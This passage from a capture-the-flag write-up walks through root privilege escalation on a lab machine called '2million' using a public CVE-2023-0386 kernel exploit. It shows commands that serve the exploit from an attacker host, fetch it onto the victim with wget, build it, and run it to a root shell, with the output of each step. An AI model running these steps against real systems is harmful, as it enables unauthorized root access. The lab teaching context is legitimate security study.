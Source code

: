 ### Moving files to Victim machine

The same way we got our linpeas script over earlier, we basically replicate to get the code from our host to our victim server:

**HOST**
```console
toastydz@parrot$ wget https://github.com/xkaneiki/CVE-2023-0386/archive/refs/heads/main.zip
...SNIP...

2023-07-28 19:49:38 (4.14 MB/s) - ‘main.zip’ saved [11578]

toastydz@parrot$ sudo python3 -m http.server 80
[sudo] password for toastydz: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**FROM VICTIM**
```console
admin@2million:~$ wget 10.10.14.179/main.zip
...SNIP...

2023-07-28 18:52:25 (152 MB/s) - ‘main.zip’ saved [11578/11578]
```


### Unzip and Install
```console
admin@2million:~$ unzip main.zip 
...SNIP...
admin@2million:~$ cd CVE-2023-0386-main/
admin@2million:~/CVE-2023-0386-main$ make all
...SNIP...
gcc -o exp exp.c -lcap
gcc -o gc getshell.c

```

### Execution time -> ROOT
Following the instructions from github, we will need two active SSH sessions into the machine.

**FIRST SESSION**
```console
admin@2million:~/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```

it may look like it is hanging or not running, that is fine just move over to the second ssh session.

**SECOND SESSION**
```console
admin@2million:~/CVE-2023-0386-main$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jul 28 19:01 .
drwxrwxr-x 6 root   root     4096 Jul 28 19:01 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
